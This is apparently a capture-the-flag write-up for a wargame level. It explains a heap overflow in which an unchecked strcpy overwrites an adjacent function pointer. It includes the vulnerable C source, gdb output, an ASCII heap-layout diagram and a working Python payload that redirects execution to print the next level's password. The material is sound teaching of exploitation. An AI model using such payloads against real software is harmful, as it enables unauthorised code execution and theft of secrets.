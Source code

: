 # Level 6

<h3>source.c</h3>

```console
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
}

void m(void) {
  puts("Nope");
}

void main(int argc, char** argv) {
  char* str;
  void* func;

  str = malloc(64);
  func = malloc(4);

  func = &m;

  strcpy(str, argv[1]);
  func();
}
```

<h3>Step</h3>

In this program, there is `n()` which will give us the password to the next level, however this function will never get called

Next in the main function, we see 2 local variable which will each be malloc with a certain amount of memory

`str` will be given a pointer to the `heap` with 64 useable memory and `func` will be given 4 `heap` memory

At the later part of the program we can see there is a call to `strcpy()` which is normally vulnerable, but there is another more interesting thing to look at

`func` is given the address of `m()` and at the last part of the `main()`, it called `func` which in turn will execute the `m()`

Since `func` is just a pointer to an address located in the `heap`, we could use the vulnerability of `strcpy()` to overflow `str` and overwrite the data of `func` so it will execute `n()` instead

<h3>Exploit</h3>

First we need to get the address of `n()`

```console
(gdb) print n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

There we have the address of `n()` which is `0x08048454`

Next we will explore on how the `heap` look like after the 2 call of `malloc()`

`str` request a memory area of 64 bytes, and get a pointer to that memory, and `func` request a memory area of 4 bytes and got a pointer to that memory

The way malloc work is that it will call `nmap()` which reserve a chunk of memory or a `page` to be used

Next the `malloc` will manage this `page` and keep a `metadata` to keep track on how much memory is left and how many block of address is free to be use

```console
+--------------------------------+
|         page of memory         |      -> area given to malloc by nmap
+--------------------------------+

+--------------------------------+
| M |                            |      -> malloc will put the metadata (M) at the begining of the page to store the information of the area it owns
+--------------------------------+

1st malloc call (str = malloc(64))

+--------------------------------+
| M | B | 64 bytes |             |      -> malloc will create a block (B) which contain the info that the next 64 bytes is now reserve (not free) and
+--------------------------------+         it will return the pointer to the begining of that 64 bytes to be use
        | *str     |
        +----------+

2nd malloc call (malloc(4))

+--------------------------------+
| M | B | 64 bytes | B | 4 bytes |      -> malloc will create new block (B) which contain the info that the next 4 bytes is now reserve (not free) and
+--------------------------------+         it will return the pointer to the begining of that 4 bytes to be use
        | *str     |   | *func   |
        +----------+   +---------+
```

We could see that the memory area of `str` and `func` is actually side by side, and only seperated by a block (B) with is 8 bytes long

`str` have a memory size of 64 bytes, and adding the 8 bytes from the block, we get 72 which is the offset that is needed to start overwriting the `func` memory area

```console
level6@RainFall:~$ ./level6 `python -c "print 'a' * 72 + '\x54\x84\x04\x08'"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

<h3>Helpful link for this exploit</h3>
https://www.youtube.com/watch?v=HPDBOhiKaD8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=27